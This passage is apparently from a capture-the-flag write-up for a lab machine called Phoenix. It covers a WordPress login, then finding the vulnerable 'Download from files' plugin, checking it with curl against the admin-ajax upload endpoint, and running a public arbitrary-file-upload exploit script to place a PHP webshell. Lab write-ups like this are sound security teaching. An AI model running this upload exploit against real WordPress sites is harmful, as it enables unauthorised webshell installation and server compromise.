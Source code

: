 Submitting that works, and logs in:

[![image-20220216114106452](https://0xdfimages.gitlab.io/img/image-20220216114106452.png)](https://0xdfimages.gitlab.io/img/image-20220216114106452.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20220216114106452.png)

### Webshell Upload

#### Enumeration

The system is relatively well hardened. Many of the old tricks such as modifying a theme or uploading a plugin as disabled from both users.

However, looking at the installed plugins, “Download from files” sounds interesting. Goolging for it returns first the official plugin page, but second a PacketStorm [page on shell upload](https://packetstormsecurity.com/files/164125/WordPress-Download-From-Files-1.48-Shell-Upload.html):

![image-20220216115225263](https://0xdfimages.gitlab.io/img/image-20220216115225263.png)

#### Script Analysis

The script builds a url which for Phoenix will be:

```

https://phoenix.htb/wp-admin/admin-ajax.php?action=download_from_files_617_fileupload

```

It tests if the instance if vulnerable using by looking for the string “Sikeres” in the result. This instance should be vulnerable by that check:

```

oxdf@hacky$ curl -sk https://phoenix.htb/wp-admin/admin-ajax.php?action=download_from_files_617_fileupload | grep Sikeres
{"status":1,"message":"Sikeres a f\u00e1jl(ok) m\u00e1sol\u00e1sa."}

```

The rest is a simple POST request with the file.

#### Run Script

The help menu gives the arguments to pass:

```

oxdf@hacky$ python download_upload.py 
Download From Files <= 1.48 - Arbitrary File Upload
Author -> spacehen (www.github.com/spacehen)
Usage: python3 exploit.py [target url] [php file]
Ex: python3 exploit.py https://example.com ./shell.(php4/phtml)

```
